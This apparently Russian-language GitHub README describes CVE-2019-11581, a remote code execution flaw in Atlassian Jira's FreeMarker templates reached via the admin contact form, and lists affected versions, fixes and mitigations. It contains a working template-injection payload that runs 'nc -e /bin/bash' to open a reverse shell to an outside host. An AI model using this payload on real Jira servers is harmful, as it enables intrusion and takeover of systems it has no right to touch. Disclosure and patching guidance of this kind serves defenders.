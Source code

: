 # RCE-in-Jira
Remote code execution in Atlassian Jira(CVE-2019–11581) through template engine FreeMaker.

В апреле месяце была обнаружена RCE в продукте Atlassian Confluence, а если быть точнее в плагине, который почти всегда там используется. И вот через 4 месяца еще одна RCE, но теперь уже в другом продукте - Jira.

# PoC?
Все это дело реализовывается через форму "Связаться с админом". По умолчанию он выключен, но у многих он включен.
Jira использует компилирующий обработчик шаблонов - [FreeMaker](https://ru.wikipedia.org/wiki/FreeMarker), написанный на Java.
Зная это, получается сгенерировать несложный Payload.

```$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('nc -e /bin/bash r0hack.xyz 80').waitFor()```

![Image](https://downloader.disk.yandex.ru/preview/8aa9e1a7214395199fa69ba66aed75beb64bf6ba00d0b72d690a9bd8018afb8a/5d2e2aea/4FcDW08Vat-NVoVf6aWDVnDD_gIthqJIYIA_7RnszcLyB_bZTnYKFluDNTr71ayqNZ0SsUQajOnt62LXVqNhuw%3D%3D?uid=0&filename=rceinjira1.png&disposition=inline&hash=&limit=0&content_type=image%2Fpng&owner_uid=0&tknv=v2&size=2048x2048)

Затем идем к нам на сервер, где слушаем порт и видим, что есть бэкконект:

![Image](https://downloader.disk.yandex.ru/preview/8d6e8bae7389cf4566b64988bbaaef985c6465133571d05499258b931ebfbb33/5d2e2961/b0nHrU1uF4yBjMOSELFi-ihQsFlZA_Hm_FzlHi0zn0-fI8WEmKr8MSC9q54NCRe5jZ15c8XYUpkIlGu7dtrEWA%3D%3D?uid=0&filename=rceinjira2.png&disposition=inline&hash=&limit=0&content_type=image%2Fpng&owner_uid=0&tknv=v2&size=2048x2048)

Вуаля, у нас есть шелл. Чаще всего, это пользователь Jira, но есть также моменты, у кого запущен и от root.
Подобный RCE, еще был в 2017 году в Spring Boot и снова Java и снова шаблонизатор FreeMaker, [подробнее!](http://deadpool.sh/2017/RCE-Springs/)

![Image](http://deadpool.sh/images/rce_new.jpg)


# How To Fix?

Обновить!

Уязвимые версии:
* 4.4.x
* 5.x.x
* 6.x.x
* 7.0.x
* 7.1.x
* 7.2.x
* 7.3.x
* 7.4.x
* 7.5.x
* 7.6.x before 7.6.14 (the fixed version for 7.6.x)
* 7.7.x
* 7.8.x
* 7.9.x
* 7.10.x
* 7.11.x
* 7.12.x
* 7.13.x before 7.13.5 (the fixed version for 7.13.x)
* 8.0.x before 8.0.3 (the fixed version for 8.0.x)
* 8.1.x before 8.1.2 (the fixed version for 8.1.x)
* 8.2.x before 8.2.3 (the fixed version for 8.2.x)

 
Исправлено в версиях:
* 7.6.14
* 7.13.5
* 8.0.3
* 8.1.2
* 8.2.3

Если нет возможности срочно обновится, то временным решением будет:
* Отключить форму отправки сообщения Админам
* Заблокировать доступ к эндпоинту ```/secure/admin/SendBulkMail!default.jspa```

```Всем удачи!```

https://codeby.net/threads/remote-code-execution-rce-v-jira-cve-2019-11581.68602/

